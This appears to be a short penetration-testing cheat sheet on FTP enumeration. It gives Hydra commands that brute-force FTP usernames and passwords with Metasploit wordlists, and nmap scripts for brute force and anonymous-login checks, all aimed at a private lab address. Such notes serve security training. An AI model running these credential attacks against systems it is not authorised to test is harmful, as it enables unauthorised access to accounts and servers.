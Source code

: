 # FTP Enumeration & Brute Force
### Brute force
#### Hydra
````bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.0.2.15 -t 4 ftp
````
#### Hydra
````bash
# Username & Password brute force
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.0.2.15 -t 4 ftp

# Password brute force
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.0.2.15 -t 4 ftp
````
#### Nmap
````bash
echo "sysadmin" > users
nmap -p21 --script ftp-brute --script-args userdb=/root/users  10.0.2.15

# Anonymous Login
nmap --script ftp-anon 10.0.2.15
````